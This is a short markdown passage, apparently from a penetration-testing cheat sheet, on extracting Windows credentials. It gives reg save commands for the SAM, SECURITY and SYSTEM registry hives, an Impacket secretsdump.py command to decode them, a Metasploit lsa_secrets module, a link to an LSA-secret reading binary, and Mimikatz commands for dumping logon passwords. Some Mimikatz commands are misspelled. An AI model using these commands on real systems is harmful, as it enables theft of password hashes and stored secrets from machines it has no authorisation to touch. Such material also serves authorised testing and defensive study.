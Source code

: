 ### Additionally saving the Secrets file and SAM and using secretsdump.py to extract their content

- Saving registry keys of interest and using secretsdump.py on them from ***Impacket***
- `reg save HKLM\sam c:\temp\sam.save`
- `reg save HKLM\security c:\temp\security.save`
- `reg save HKLM\system c:\temp\system.save`
- Now that everything is saved, bring these files over to your kali machine and use secretsdump.py
- `secretsdump.py -sam /root/Desktop/sam.save -security /root/Desktop/security.save -system /root/Desktop/system.save`
- Alternatively there's a post exploitation module in **Metasploit**
- `run post/windows/gather/lsa_secrets`
- The same result can be achieved with the **[lsasecretread binary](https://github.com/linuxmuster/lsaSecrets/blob/master/bin/lsaSecretRead.exe)**
- **Mimikatz** `privilige::debug` and then `sekurlsa:logonPasswords`